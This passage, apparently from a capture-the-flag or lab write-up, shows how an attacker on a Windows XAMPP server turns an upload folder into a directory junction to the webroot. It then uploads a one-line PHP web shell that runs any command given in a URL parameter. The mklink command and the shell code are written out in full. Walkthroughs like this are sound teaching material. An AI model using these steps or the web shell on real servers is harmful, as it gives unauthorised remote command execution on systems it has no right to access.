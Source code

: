 I tried upload multiple files here and all files are uploaded in the same folder.

![198d346ebd4e79aaf86b2fad2867f3d4.png](/resources/198d346ebd4e79aaf86b2fad2867f3d4.png)

To actually exploit this, I will create symbolic link from the uploaded folder to webroot which I should be able to utilize PHP reverse shell that I will upload with this symlink.

First, I'll remove all files and folders to remove any conflict when I created a symlink.
```
del d41d8cd98f00b204e9800998ecf8427e
rmdir d41d8cd98f00b204e9800998ecf8427e
```
![bec1183e102bae4c649691c513c28fef.png](/resources/bec1183e102bae4c649691c513c28fef.png)

Now I create a symlink from `C:\Windows\Tasks\Uploads\d41d8cd98f00b204e9800998ecf8427e` folder to webroot folder.

```
cmd /c mklink /J C:\Windows\Tasks\Uploads\d41d8cd98f00b204e9800998ecf8427e C:\xampp\htdocs
```
![ade7f43981026ff03621b8714cdd7d68.png](/resources/ade7f43981026ff03621b8714cdd7d68.png)

Next, I upload the simple webshell here with the upload functionaility of the website.
```
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```
![9065ab50957a488127b9b90f692a46d2.png](/resources/9065ab50957a488127b9b90f692a46d2.png)